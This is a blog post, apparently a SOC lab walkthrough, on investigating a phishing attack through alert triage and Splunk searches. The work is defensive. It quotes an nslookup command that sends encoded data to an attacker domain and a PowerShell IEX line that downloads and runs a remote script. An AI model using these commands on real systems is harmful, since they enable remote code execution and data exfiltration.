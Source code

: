 ```yaml
---
layout: single
title: "Phishing Unfolding"
excerpt: "Dive into the heat of a live phishing attack as it unfolds within the corporate network."
date: 2024-12-28
classes: wide
header:
  teaser: /blog/assets/images/phishing-alert/phishing-detection.png
  teaser_home_page: true
  icon: /blog/assets/images/cybersecurity-alert.webp
categories:
  - Incident Response
---
```

**Scenario Details**

**Description**  
Dive into the heat of a live phishing attack as it unfolds within the corporate network. In this high-pressure scenario, your role is to meticulously analyze and document each phase of the breach as it happens. Can you piece together the attack chain in real-time and prepare a comprehensive report on the malicious activities?

---

**Scenario Objectives**  
- Monitor and analyze real-time alerts as the attack unfolds.  
- Identify and document critical events such as PowerShell executions, reverse shell connections, and suspicious DNS requests.  
- Create detailed case reports based on your observations to help the team understand the full scope of the breach.

---

**Access the Alert Queue**

1. Navigate to the SOC Dashboard
![](../assets/images/phishing-unfolding/1.png)

2. Open the alert queue and review the real-time alerts generated by the system.
![](../assets/images/phishing-unfolding/2.png)

The Alert Queue is a workspace for SOC analysts to manage and investigate security alerts. It provides a streamlined way to assess the urgency of alerts, pick them up for investigation, and document findings.

---

**Key Components in the Alert Queue**

1. **Assigned Alerts Section**  
   - Displays alerts assigned to you for tracking and investigation.

2. **Alert List**  
   - Lists alerts needing action, including:
     - **ID:** Unique identifier (e.g., 1033, 1032).
     - **Alert Rule:** Description of what triggered the alert.
     - **Severity:** Medium (requires attention) or Low (can be deprioritized).
     - **Type:** Execution (process-related activity), Phishing (email-related activity), or Process (suspicious behavior).
     - **Date:** Timestamp of alert generation.
     - **Status:** Current state (e.g., Awaiting Action).
     - **Action Button:** Click to take ownership of an alert.

3. **Filters**  
   - Organize alerts by:
     - Severity: High, Medium, Low.
     - Type: Phishing, Execution, Process.
     - Status: Pending, Resolved, Under Investigation.

4. **Search Bar**  
   - Locate specific alerts using keywords, IDs, or rules.
![](../assets/images/phishing-unfolding/3.png)

![](../assets/images/phishing-unfolding/4.png)

---

**Identifying Critical Alerts**

- The alert queue displays multiple **High severity** alerts for **"Suspicious Parent-Child Relationship"**, classified as **Process type**.
- These alerts indicate potential malware activity, privilege escalation, or unauthorized access.
![](../assets/images/phishing-unfolding/5.png)

---

**Investigate Alerts**

1. **Take Ownership of Alerts**
   - Click the "Action" button to assign the alert to yourself.
   ![](../assets/images/phishing-unfolding/6.png)

   - Example: Assigned alert ID 1049 (High Severity, Process-related, "Suspicious Parent-Child Relationship").
   ![](../assets/images/phishing-unfolding/7.png)


2. **Analyze Alert ID 1049**
   - **Datasource:** Sysmon  
   - **Timestamp:** 28/12/2024 11:47:56.301  
   - **Event Code:** 1 (Process Creation)  
   - **Host Name:** win-3450  
   - **Process Name:** nslookup.exe  
   - **Parent Process Name:** powershell.exe  
   - **Command Line:**  
     ```
     "C:\Windows\system32\nslookup.exe" RmJjEyNGZiMTY1NjZlFQ==.haz4rdw4re.io
     ```
   - **Working Directory:** C:\Users\michael.ascot\downloads\
---

**Initial Observations**

- **PowerShell (Parent Process)**: Frequently exploited by attackers for executing scripts and downloading payloads.
- **nslookup.exe (Child Process)**: Used for DNS queries, but its execution in this context is unusual and likely malicious.
- **Encoded String in Command Line**: Needs decoding to uncover possible exfiltrated data.
- **Suspicious Working Directory**: Files originating from the Downloads folder suggest unauthorized activity.
  ![](../assets/images/phishing-unfolding/8.png)

  ![](../assets/images/phishing-unfolding/9.png)

---

**Investigate Further Using SIEM (Splunk)**

1. **Search for Related Events in Splunk:**

   index=* nslookup.exe
  ![](../assets/images/phishing-unfolding/10.png)

  ![](../assets/images/phishing-unfolding/11.png)

   - **Observations:**
     - Repeated execution of nslookup.exe.
     - Suspicious domain (haz4rdw4re.io).
     - Base64-encoded strings hinting at data exfiltration or Command and Control (C2) communication.
    ![](../assets/images/phishing-unfolding/12.png)

    ![](../assets/images/phishing-unfolding/13.png)

2. **Analyze Parent Process (PowerShell):**

   index=* process.parent.pid=3728
    ![](../assets/images/phishing-unfolding/14.png)

    ![](../assets/images/phishing-unfolding/15.png)

   - Confirmed multiple child processes initiated by PowerShell, indicating possible malicious automation.
    ![](../assets/images/phishing-unfolding/16.png)


3. **Investigate PowerShell Activity:**
   
   index=* powershell.exe
    ![](../assets/images/phishing-unfolding/17.png)

   - Found execution of a command downloading a suspicious script:
     
     IEX(New-Object System.Net.WebClient).DownloadString("http://malicious-url/script.ps1")
     
   - **Unusual Execution Pattern:** Attackers often leverage PowerShell for covert actions.

---

**Summary of Events**

- **PowerShell spawned multiple instances of nslookup.exe, likely for C2 communication.**
- **Each execution involved encoded data and a suspicious domain (haz4rdw4re.io).**
- **Execution originated from an ‘exfiltration’ directory, suggesting data theft.**
- **PowerShell executed a potentially malicious script, indicating a larger attack chain.**
- **Patterns suggest lateral movement, reconnaissance, or exfiltration.**
    ![](../assets/images/phishing-unfolding/18.png)
    
    ![](../assets/images/phishing-unfolding/19.png)


---

**Next Steps**

- **Decode Base64 Strings**: To analyze potential payloads or exfiltrated data.
- **Correlate Logs Across Systems**: Check endpoint logs for related events.
- **Identify Attacker Techniques**: Map findings to MITRE ATT&CK framework.
- **Contain and Mitigate**: Block malicious domains and isolate the affected host.

---

**Conclusion**

This investigation demonstrates how attackers use legitimate tools like PowerShell and nslookup.exe for malicious purposes. By analyzing real-time alerts and logs, SOC analysts can detect and mitigate threats before they escalate into a full-blown breach.

